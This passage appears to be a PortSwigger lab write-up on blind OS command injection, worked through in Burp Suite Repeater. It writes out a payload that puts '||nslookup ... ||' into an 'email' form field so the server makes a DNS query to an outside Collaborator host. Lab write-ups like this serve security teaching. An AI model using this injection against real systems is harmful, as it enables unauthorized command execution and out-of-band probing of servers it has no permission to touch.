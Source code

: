 With that I can go back to the repeater. The vulnerable parameter is once again *email*. This time I'll use the double pipe symbol `||` to inject the `nslookup` command using the `+` I can add the collaborator's payload by right clicking the area after `+` and selecting *insert Collaborator Payload*. I then need to close the payload with another double pipe symbol `||` so that the command can continue as normal in case there are any server side checks to ensure it completes. 

`email=crumbles%40Crumbles.com||nslookup+8bkvi8b3hr59f6o3c1ya453fm6sxgr4g.oastify.com||` 

![editted request](/docs/assets/images/portswigger/oscommandinjection/osci25.png)

I can see from the response that the request was successful. I can verify the payload caused the server to perform a *DNS* query on my collaborator server back in the collaborator tab in burp.  
